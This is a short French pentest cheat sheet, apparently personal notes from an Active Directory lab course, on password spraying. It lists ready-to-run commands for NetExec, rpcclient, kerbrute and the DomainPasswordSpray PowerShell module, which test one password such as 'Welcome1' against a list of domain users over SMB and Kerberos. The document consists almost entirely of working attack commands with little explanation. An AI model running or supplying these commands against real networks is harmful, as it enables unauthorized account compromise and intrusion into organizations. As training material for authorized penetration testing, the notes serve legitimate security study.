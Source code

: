 
> [!TIP]
> Tester un mot de passe pour tous les utilisateurs
>

> [!ATTENTION]
> Penser a le faire sur le plus de protocoles possibles (smb, winrm, wmi, ssh, ldap, ftp, rdp, mssql, nfs, vnc)

- [[#Depuis Linux]]
- [[#Depuis Windows]]

---
## Depuis Linux

### *NETEXEC*

```shell
nxc smb 172.16.5.5 -u valid_users.txt -p Welcome1 --continue-on-success | grep +
```

Local-auth

```shell
nxc smb 172.16.5.5 -u valid_users.txt -p Welcome1 --continue-on-success --local-auth | grep +
```

Kerberos

```shell
nxc smb 172.16.5.5 -u valid_users.txt -p Welcome1 --continue-on-success -k --kdcHost 172.16.5.5 | grep +
```

### *RPCCLIENT*

boucle for

```shell
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

### *KERBRUTE*

> [!Important]
> Attention s'arrête au premier valide

```shell
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```


---

## Depuis Windows

### *DOMAINPASSWORDSPRAY*

https://github.com/dafthack/DomainPasswordSpray

```powershell
Import-Module .\DomainPasswordSpray.ps1
```

```powershell
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

### *KERBRUTE*

> [!Important]
> Attention s'arrête au premier valide

```shell
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```



